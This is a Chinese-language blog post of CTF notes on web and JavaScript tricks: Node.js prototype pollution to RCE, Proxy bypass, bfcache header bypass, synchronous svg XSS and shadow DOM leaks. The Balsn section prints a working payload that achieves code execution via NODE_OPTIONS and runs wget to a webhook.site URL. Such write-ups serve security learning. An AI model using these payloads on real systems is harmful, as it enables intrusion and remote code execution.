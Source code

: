 ```yaml
---
title: 幾個與 Web 跟 JS 相關的 CTF 題目小記
catalog: true
date: 2022-12-08 20:10:44
tags: [Security]
categories: [Security]
photos: /img/ctf-js-notes/cover.png
---
```


前陣子有幾個 CTF 都很不錯，像是 SECCON 跟 HITCON，但可惜我前陣子剛好出國玩了，回來以後就懶得寫完整 writeup 了。原本其實連記下來都懶得記，可是一旦時間久了，要找相關的資料就會變得很難找，所以還是決定簡單記一下。

除此之外，順便記一下幾題我覺得以前應該要記下來，但不知道為什麼卻沒記下來的題目。

關鍵字：

1. Node.js prototype pollution gadget to RCE (Balsn CTF 2022 - 2linenodejs)
2. 取得 JS proxy 的原始值 (corCTF 2022 - sbxcalc)
3. 瀏覽器 back 行為的 cache (SECCON CTF 2022 - spanote)
4. 利用 svg 做出同步的 XSS (HITCON CTF 2022)
5. 讀到 shadow DOM 的資料 (HITCON CTF 2022)

<!-- more -->

## Balsn CTF 2022 - 2linenodejs

程式碼十分簡單：

``` js
#!/usr/local/bin/node
process.stdin.setEncoding('utf-8');
process.stdin.on('readable', () => {
  try{
    console.log('HTTP/1.1 200 OK\nContent-Type: text/html\nConnection: Close\n');
    const json = process.stdin.read().match(/\?(.*?)\ /)?.[1],
    obj = JSON.parse(json);
    console.log(`JSON: ${json}, Object:`, require('./index')(obj, {}));
  }catch (e) {
    require('./usage')
  }finally{
    process.exit();
  }
});

// index
module.exports=(O,o) => (
    Object.entries(O).forEach(
        ([K,V])=>Object.entries(V).forEach(
            ([k,v])=>(o[K]=o[K]||{},o[K][k]=v)
        )
    ), o
);
```

很明顯有個 prototype pollution 的洞，因此這題考的就是你在 node.js 有了 prototype pollution 以後，要怎麼弄到 RCE。

這邊還有一個關鍵是 catch 裡面的 `require('./usage')`

最後一個關鍵是這篇論文：[Silent Spring: Prototype Pollution Leads to Remote Code Execution in Node.js](https://arxiv.org/abs/2207.11171)，裡面提到很多從原型污染打到 RCE 的案例，然後都有附上 gadget 或是一些提示。

不過論文裡的其中一個洞在這題用的版本已經被修掉了：https://github.com/nodejs/node/blob/v18.8.0/lib/internal/modules/cjs/loader.js#L484

``` js
const { 1: name, 2: expansion = '' } =
    RegExpPrototypeExec(EXPORTS_PATTERN, request) || kEmptyObject;
```

kEmptyObject 是 `ObjectFreeze(ObjectCreate(null))`，所以不會被污染了。

但總之在檔案裡面繼續找一找，就會發現另一個 `trySelf` 的 function 有同個問題，在這裏：https://github.com/nodejs/node/blob/c200106305f4367ba9ad8987af5139979c6cc40c/lib/internal/modules/cjs/loader.js#L454

``` js
const { data: pkg, path: pkgPath } = readPackageScope(parentPath) || {};
```

這邊預設值也用了 `{}`，所以可以透過原型污染去干擾這些值。

下面這一段程式碼，會去載入 `./pwn.js` 而不是 `./usage.js`：

``` js
Object.prototype["data"] = {
  exports: {
    ".": "./pwn.js"
  },
  name: './usage.js'
}
Object.prototype["path"] = './'

require('./usage.js')
```

因此透過原型污染，可以達成 require 任意文件。接下來的任務就是去找出哪個內建文件有可以使用的 payload，隊友找到 `/opt/yarn-v1.22.19/preinstall.js`，最後長這樣：

```js
Object.prototype["data"] = {
  exports: {
    ".": "./preinstall.js"
  },
  name: './usage'
}
Object.prototype["path"] = '/opt/yarn-v1.22.19'
Object.prototype.shell = "node"
Object.prototype["npm_config_global"] = 1
Object.prototype.env = {
  "NODE_DEBUG": "console.log(require('child_process').execSync('wget${IFS}https://webhook.site/a0beafdc-df63-4804-85a8-7945ad473bf5?q=2').toString());process.exit()//",
  "NODE_OPTIONS": "--require=/proc/self/environ"
}

require('./usage.js')
```

別人寫的 writeup：

1. https://ctf.zeyu2001.com/2022/balsnctf-2022/2linenodejs

### corCTF 2022 - sbxcalc

這題最核心的部分可以看成是這樣：

``` js
var p = new Proxy({flag: window.flag || 'flag'}, {
  get: () => 'nope'
})
```

試問要怎麼拿到被 proxy 擋住的 flag？

答案是 `Object.getOwnPropertyDescriptor`。

`Object.getOwnPropertyDescriptor(p, 'flag')`，這樣就可以拿到原始的值，而不是 proxy 處理後的東西。

作者 writeup: https://brycec.me/posts/corctf_2022_challenges#sbxcalc

### SECCON CTF 2022 Quals - spanote

Chrome 裡面有一種 cache 叫做 back/forward cache，簡稱 bfcache，這詞我還是第一次聽到：http://web.dev/articles/bfcache

第二個 disk cache 應該大家都比較熟悉了，fetched resourced 會存在裡面。

利用這個 bfcache，可以做出很有趣的行為。

現在有一個 API 是這樣：

``` js
fastify.get("/api/notes/:noteId", async (request, reply) => {
  const user = new User(request.session.userId);
  if (request.headers["x-token"] !== hash(user.id)) {
    throw new Error("Invalid token");
  }
  const noteId = validate(request.params.noteId);
  return user.sendNote(reply, noteId);
});
```

雖然是個 GET，但是會檢查 custom header，因此照理來說直接用瀏覽器訪問是看不了的。

但是搭配剛剛講到的 cache 行為，你可以：

1. 用瀏覽器打開 `/api/notes/id`，出現錯誤畫面
2. 用同一個 tab 去到首頁，此時首頁會用 fetch 搭配 custom header 去抓 `/api/notes/id`，瀏覽器會把結果存在 disk cache 內
3. 上一頁，此時畫面會顯示 disk cache 的結果

就可以用瀏覽器直接瀏覽 cached response，繞過了 custom header 的限制。

整題更詳細的 writeup 可以看這邊：https://blog.arkark.dev/2022/11/18/seccon-en/#web-spanote

### HITCON CTF 2022

先貼一下 maple 跟 splitline 的 writeup：

1. https://github.com/maple3142/My-CTF-Challenges/tree/master/HITCON%20CTF%202022
2. https://blog.splitline.tw/hitcon-ctf-2022/

這次只有稍微看了一下 Self Destruct Message 那一題，簡單講一下幾個考點。

第一個是執行 `element.innerHTML = str` 的時候，通常 HTML 裡面有什麼東西都會是非同步執行，例如說：

```js
element.innerHTML = '<img src=x onerror=console.log(1)>'
console.log(2)
```

絕對是先 log 2 再來才是 1。

但如果你這樣子寫：

```js
const div = document.createElement('div')
div.innerHTML = '<svg><svg onload=console.log(1)>'
console.log(2)
```

就會很神奇的變成 1 在前面，而且這個 div 甚至不需要放到 DOM 裡面也會有作用。相關的討論可以看這一串：https://twitter.com/terjanq/status/1421093136022048775

再來就是可以利用 error stack 去找出原本的 location，拿到 flag id：

``` js
window.addEventListener('unhandledrejection', e => {
	console.log(e.reason.stack.match(/\/message\/(\w+)/)[1]);
});
```

然後這題也有別的解法，雖然說元素是放在 shadow DOM 裡面，但是可以透過一些 xsleak 去偷出 flag，更完整的研究在這邊：[The Closed Shadow DOM](https://blog.ankursundara.com/shadow-dom/)

類似題目有出現在 DiceCTF 2022，我有寫過一篇心得但是那時候還沒開始標關鍵字：https://blog.huli.tw/2022/02/08/what-i-learned-from-dicectf-2022/



